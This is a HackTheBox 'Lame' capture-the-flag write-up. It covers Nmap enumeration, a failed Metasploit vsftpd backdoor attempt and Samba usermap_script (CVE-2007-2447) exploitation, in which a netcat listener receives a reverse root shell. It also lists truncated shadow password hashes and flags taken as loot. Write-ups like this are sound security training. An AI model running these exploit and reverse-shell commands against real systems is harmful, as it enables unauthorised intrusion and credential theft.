

# [[HackTheBox] Lame](https://www.hackthebox.eu/home/machines/profile/1)

**Date**: 01/Nov/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [htb](https://github.com/7h3rAm/writeups/search?q=htb&unscoped_q=htb), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [`exploit_smb_usermap`](https://github.com/7h3rAm/writeups#exploit_smb_usermap)  
**InfoCard**:  


## Overview
This is a writeup for HackTheBox VM [Lame](htps://www.hackthebox.eu/home/machines/profile/1). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:





\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Fri Nov  1 12:30:13 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.lame/results/10.10.10.3/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.lame/results/10.10.10.3/scans/xml/_quick_tcp_nmap.xml 10.10.10.3
Nmap scan report for 10.10.10.3
Host is up, received user-set (0.26s latency).
Scanned at 2019-11-01 12:30:13 PDT for 94s
Not shown: 996 filtered ports
Reason: 996 no-responses
PORT    STATE SERVICE     REASON         VERSION
21/tcp  open  ftp         syn-ack ttl 63 vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.18
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         syn-ack ttl 63 OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBALz4hsc8a2Srq4nlW960qV8xwBG0JC+jI7fWxm5METIJH4tKr/xUTwsTYEYnaZLzcOiy21D3ZvOwYb6AA3765zdgCd2Tgand7F0YD5UtXG7b7fbz99chReivL0SIWEG/E96Ai+pqYMP2WD5KaOJwSIXSUajnU5oWmY5x85sBw+XDAAAAFQDFkMpmdFQTF+oRqaoSNVU7Z+hjSwAAAIBCQxNKzi1TyP+QJIFa3M0oLqCVWI0We/ARtXrzpBOJ/dt0hTJXCeYisKqcdwdtyIn8OUCOyrIjqNuA2QW217oQ6wXpbFh+5AQm8Hl3b6C6o8lX3Ptw+Y4dp0lzfWHwZ/jzHwtuaDQaok7u1f971lEazeJLqfiWrAzoklqSWyDQJAAAAIA1lAD3xWYkeIeHv/R3P9i+XaoI7imFkMuYXCDTq843YU6Td+0mWpllCqAWUV/CQamGgQLtYy5S0ueoks01MoKdOMMhKVwqdr08nvCBdNKjIEd3gH6oBk/YRnjzxlEAYBsvCmM4a0jmhz0oNiRWlc/F+bkUeFKrBx/D2fdfZmhrGg==
|   2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAstqnuFMBOZvO3WTEjP4TUdjgWkIVNdTq6kboEDjteOfc65TlI7sRvQBwqAhQjeeyyIk8T55gMDkOD0akSlSXvLDcmcdYfxeIF0ZSuT+nkRhij7XSSA/Oc5QSk3sJ/SInfb78e3anbRHpmkJcVgETJ5WhKObUNf1AKZW++4Xlc63M4KI5cjvMMIPEVOyR3AKmI78Fo3HJjYucg87JjLeC66I7+dlEYX6zT8i1XYwa/L1vZ3qSJISGVu8kRPikMv/cNSvki4j+qDYyZ2E5497W87+Ed46/8P42LNGoOV8OcX/ro6pAcbEPUdUEfkJrqi2YXbhvwIJ0gFMb6wfe5cnQew==
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 4h00m15s, deviation: 0s, median: 4h00m15s
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 59488/tcp): CLEAN (Timeout)
|   Check 2 (port 22727/tcp): CLEAN (Timeout)
|   Check 3 (port 47197/udp): CLEAN (Timeout)
|   Check 4 (port 40169/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name:
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-11-01T15:31:21-04:00
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  1 12:31:47 2019 -- 1 IP address (1 host up) scanned in 93.91 seconds

```

2\. We find that the `vsftpd` service allows anonymous logins and as such connect to it but don't find anything inetresting there. We however find a MSF exploit for the `vsftpd` version `2.3.4`. This exploit failed to obtain a session:  
``` {.python .numberLines}
ftp 10.10.10.3
msfconsole
  use exploit/unix/ftp/vsftpd_234_backdoor
  set RHOST 10.10.10.3
  show options
  exploit

```

  

  

3\. We then explore the open (read+write) SMB share `tmp` but since there is no service (like HTTP for example) to leverage uploaded files, we move on:  
``` {.python .numberLines}
smbclient \\\\10.10.10.3\\tmp
  dir

```

  


### Findings
#### Open Ports
``` {.python .numberLines}
21/tcp   |  ftp          |  vsftpd 2.3.4
22/tcp   |  ssh          |  OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp  |  netbios-ssn  |  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  |  netbios-ssn  |  Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
```

\newpage
## Phase #2: Exploitation
1\. From the Nmap scan results we know that the SMB service version is `3.0.20-Debian` and upon searching for this version we come across the popular `usermap_script` exploit. There's a [Python script](https://github.com/amriunix/CVE-2007-2447) for this exploit on GitHub. We follow the exploit instructions and gain a shell with elevated privileges on the target system:  
``` {.python .numberLines}
nc -nlvp 443
python usermap_script.py 10.10.10.3 139 10.10.14.18 443

```

  

  

2\. We then read the contents of both `user.txt` and `root.txt` files to complete the challenge:  
``` {.python .numberLines}
cat /home/makis/user.txt
cat /root/root.txt

```

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
root@lame> id
uid=0(root) gid=0(root)
root@lame>  
root@lame> uname
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
root@lame>  
root@lame> ifconfig
eth0  Link encap:Ethernet  HWaddr 00:50:56:b9:f5:91
      inet addr:10.10.10.3  Bcast:10.10.10.255  Mask:255.255.255.0
      inet6 addr: dead:beef::250:56ff:feb9:f591/64 Scope:Global
      inet6 addr: fe80::250:56ff:feb9:f591/64 Scope:Link
      UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
      RX packets:146904 errors:9 dropped:15 overruns:0 frame:0
      TX packets:7368 errors:0 dropped:0 overruns:0 carrier:0
      collisions:0 txqueuelen:1000
      RX bytes:9465045 (9.0 MB)  TX bytes:1025713 (1001.6 KB)
      Interrupt:19 Base address:0x2000
root@lame>  
root@lame> users
root
makis
```

\newpage

\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$1$p/d3CvVJ$4HDjev4SJFo7VMwL2Zg6P0:17239:............
sys:$1$NsRwcGHl$euHtoVjd59CxMcIasiTw/.:17239:0...........
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:14742:............
postgres:$1$dwLrUikz$LRJRShCPfPyYb3r6pinyM.:17239:............
service:$1$cwdqim5m$bw71JTFHNWLjDTmYTNN9j/:17239:............
makis:$1$Yp7BAV10$7yHWur1KMMwK5b8KRZ2yK.:17239:............
```
### Flags
``` {.python .numberLines}
/home/makis/user.txt: 69454a937d94f5f0225ea...........
/root/root.txt: 92caac3be140ef409e4572..........
```

## References
[+] <https://www.hackthebox.eu/home/machines/profile/1>  
[+] <https://hackingresources.com/lame-hackthebox-walkthrough/>  
